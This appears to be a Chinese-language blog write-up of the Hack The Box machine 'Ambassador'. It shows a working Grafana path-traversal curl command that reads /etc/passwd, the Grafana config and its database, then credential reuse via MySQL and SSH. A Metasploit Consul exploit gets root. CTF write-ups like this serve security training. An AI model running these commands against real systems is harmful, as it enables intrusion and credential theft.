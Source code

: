 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/0bd65abd219e43e6bb3c4fa7e0a982f5.png)
题目网址：
```
https://app.hackthebox.com/machines/Ambassador
```
# 枚举
使用nmap枚举靶机
```
nmap -sC -sV -p- 10.10.11.183
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/4b9873d85da14f7588edebf97ed91317.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ce8f3ed6d5349ad87f13417235335c4.png)

这次扫描到了四个端口
```
22
80
3000
3306
```
这些端口都应该是有用的，先对80端口进行枚举，网址根目录扫描，网站模板枚举

![在这里插入图片描述](https://img-blog.csdnimg.cn/0f34572d03eb4085bb9a76a1007510c7.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d720e4fe698a4a3c9569edc45e9783ff.png)

通过这个网站的唯一一篇文章可以知道，有一个developer账户可以去访问ssh



但是进行一系列枚举后，并没有从80端口找到什么突破点，根据nmap的扫描结果来看，3000端口上运行的也是一个网站，我们去3000端口看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/d4a0f2f9a59041688dd800b3a9817ab8.png)

这个网站框架是Grafana，我用searchsploit搜索了一下存在的漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/e9231706d9c54a108418101fd025e39d.png)

发现可能存在目录遍历和任意文件读取漏洞，我们用这个脚本试试

```
locate multiple/webapps/50581.py
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6d3d51ea4c9a4fadaec9ad15588eb326.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/63178283d3b445fab1085cdfb309f0cb.png)

成功读取到了/etc/passwd的文件内容

现在我们读取Grafana的配置文件，看能不能得到后台密码

```
https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d03817938b844eb3b5123284e61a746e.png)


通过查询官方文档，发现Grafana的配置文件地址为
```
/etc/grafana/grafana.ini
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa662fdb9e5444d09f8d13f3d1540677.png)

通过配置文件可以发现用户和密码，返回网站登录
# 获取用户shell
登录后，我在后台到处看了一下，没找到什么有用的东西，现在我们把Grafana的库下载到本地看看

```
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9f551c98716d49cfb33604b5b02b5dd8.png)

在data_source表里发现了登录mysql的用户名和密码，现在我们登录mysql
```
mysql -h 10.10.11.183 -u grafana -p
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a403d7dab6b3405981384e073c7f5cbc.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0e9bb8a95e743a2b1770e50677131d9.png)

在whackywidget数据库里找到了developer用户的密码，根据80端口的网站提示，这个用户可以登录ssh，base64解密后登录ssh
```
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
ssh developer@10.10.11.183
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ff8a7303c20947b09bd13272625fa8ee.png)

成功获得用户shell
# 提权

通过查看当前文件夹的文件，发现了一个有趣的文件
```
ls -al
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2192e6632154bb9b4395bd95aa9f86f.png)


这是Git的配置文件，通过查看这个文件里的内容，可以找到一个位置

![在这里插入图片描述](https://img-blog.csdnimg.cn/4bca7d9911e14c959995c2a7cfcda0aa.png)
```
/opt/my-app
```
然后查看以前的提交
```
git show
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b8eb452df9b40f98677b728af854775.png)

# git consul API提权
我们找到了一个git的令牌，通过google搜索相关的利用，我们可以利用这个api来提权
```
https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/misc/consul_service_exec
```

可以用msfconsole，也可以手动
首先我们把靶机的8500端口转发到本地
```
ssh -L 8500:0.0.0.0:8500  developer@10.10.11.183
```

然后运行msfconsole使用exploit/multi/misc/consul_service_exec模块

![在这里插入图片描述](https://img-blog.csdnimg.cn/7bda3c8898f949cfa598389c9377f65a.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/823abc5fc620449cb6f3d6ba44870c3e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/eda1694d7d2b44ae8ce000082eccfe86.png)

成功获得root权限
